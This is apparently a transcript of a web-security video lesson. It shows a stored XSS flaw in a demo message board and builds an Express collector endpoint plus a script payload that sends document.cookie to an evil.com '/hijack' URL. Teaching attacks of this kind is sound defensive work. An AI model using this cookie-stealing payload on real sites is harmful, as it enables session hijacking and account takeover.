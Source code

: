 Instructor: [00:00] Now that our target site is protected against man in the middle and CSURF attacks, let's put our attacker hat back on and move on to our next attack, cross-site scripting, otherwise known as XSS.

[00:12] XSS attacks occur when an attacker uses a web application to inject malicious code, generally in the form of a browser-side script to unsuspecting users on otherwise trusted application. This occurs anywhere in web application, includes user input and its output while validating or encoding it.

[00:30] The way this works is that a message gets pushed under messages array and message that gets pushed is message from our user's username, followed by the value of the message parameter from the request.

[00:44] If you notice carefully, in `messages.js`, this message isn't sanitized in anyway, nor is it validated. If we then go down to our get route, we could see the messages are just printed out again, joined by two line breaks without doing any special formatting to turn a HTML into HTML entities.

[01:02] What this means is that any HTML present in messages will just be printed out as plain HTML. We can verify that this is vulnerable to XSS by attempting to include some HTML in our message. If I say `<imagesource="http://placekitten.com/400/400">`, I could see that an actual HTML for the image is placed, rather than the string representing that HTML.

![image in message](../images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-html-in-message.png)

[01:34] Now that we've proven this page is vulnerable to XSS, we could do something a bit more malicious as our attacker. Let's try to steal the session cookie. We'll go to the server running evil.com, which is a pretty basic express application serving content from our static directory.

[01:50] Let's add an endpoint, which we'll call `"/hijack"`. When this endpoint is getted, let's log some information. We'll say `console.log("received cookie")` and we'll just damp the information contained in the payload parameter of our get query. We'll respond with `status(200)` and with the message OK.

#### index.js
```js
app.route("/hijack").get((request, response) => {
  console.log("areceived cookie", request.query.payload);
  response.status(200);
  response.send("ok");
})
```

[02:24] As an attacker, we want to hit this endpoint. We'll make another `script` and what this script will do is it will attempt to extract the session cookie. First we'll say our `const payload = document.cookie`. Because we're transmitting it over HTTP, we'll call `encodeURIComponent` on it.

#### Untitled-1
```html
<script>
const payload = encodeURIComponent(document.cookie);
</script>
```

[02:51] One of the easiest ways to transmit information is not via XHR or VFH, we'll just create a new image. We'll say `const img = newImage`. We'll set the source of our `image` to be equal to `https://evil.com:666/hijack`, which is our endpoint. It'll have a payload of our payload. That should do it.

```html
<script>
const payload = encodeURIComponent(document.cookie);
const img = new Image();
img.src = `https://evil.com:666/hijack?payload=${payload}`;
</script>
```

[03:27] Let's paste this message in now to our form. Hit submit. We could see that our request has gone out to evil.com:666/hijack with our payload, which contains our session ID. 

![payload highjacked](../images/egghead-make-an-xss-payload-to-read-a-cookie-from-a-vulnerable-website-highjacked-payload.png)

You could also notice that in the log output of our evil.com server is now printing out the cookie, thus completing our exercise attack.
